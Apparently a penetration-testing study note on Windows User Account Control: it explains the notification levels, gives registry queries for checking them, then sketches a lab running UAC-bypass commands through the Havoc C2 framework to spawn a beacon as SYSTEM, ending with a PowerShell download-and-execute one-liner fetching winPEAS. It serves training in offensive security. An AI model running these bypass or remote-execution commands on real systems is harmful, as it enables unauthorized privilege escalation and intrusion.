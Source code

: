 # UAC - User Account Control (Privilege Escalation)

User Account Control (UAC) is a security feature in Windows that helps prevent unauthorized changes to your computer. These changes can be initiated by applications, viruses, or other forms of malware. UAC ensures that such changes cannot be made without your knowledge or consent, adding an extra layer of security.

## How UAC Works

1. **Permissions and Elevation**
When you or an application tries to make changes that require administrative privileges, UAC prompts you to confirm or deny the action. This is known as elevation. Only an administrator account can provide the necessary permission to proceed.

2. **Secure Desktop**
In higher UAC settings, the prompt appears on the secure desktop. This is a screen dimming feature that makes it difficult for malware to interact with or spoof the UAC prompt. Essentially, it ensures that the prompt is coming from Windows and not from a malicious program.

3. **Levels of Notification**
UAC has different levels of notification settings, ranging from always notifying you of changes to never notifying you (effectively turning off UAC).

## User Account Control (UAC) has four levels of notification settings:

1. **Always notify**: This is the highest level of protection. It notifies you before any changes are made to your computer that require administrator permissions. It also freezes other tasks until you respond.

2. **Notify me only when programs try to make changes to my computer**: This is the `DEFAULT` level. It notifies you when programs try to make changes to your computer or install software.

3. **Notify me only when programs try to make changes to my computer (do not dim my desktop)**: Similar to the previous level, but it doesn't switch to the Secure Desktop with desktop locking.

4. **Never notify**: This is the lowest level of protection. UAC is disabled, and you won't be notified when changes are made to your computer.

You can adjust these settings by moving the slider in the User Account Control Settings window.

# MITRE Reference

![image](./images/uac_mitre.jpg)

![image](./images/uac_settings.jpg)

Running a simple powershell command that add's a registry key with some values shows nicely what this actually means:

![image](./images/uac_ps.jpg) 

![image](./images/uac_prompt.jpg)

Check if UAC is enabled (1 = enabled, 0 is disabled)

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object EnableLua
```

And to check which level it is :

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object ConsentPromptBehaviorAdmin
```
| Value | Description                                  |
| ----- | -------------------------------------------- |
| 0     | No Prompt                                    |
| 1     | Prompt for credential on the secure desktop  |
| 2     | Prompt for CONSENT on the secure desktop     |
| 3     | Prompt for Credentials on the normal desktop |
| 4     | Prompt for CONSENT on the normal desktop     |
| 5     | Prompt for CONSENT for non-windows binaries  |




https://www.youtube.com/watch?v=ZhaZJ4Uipqk

Fodhelper


Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
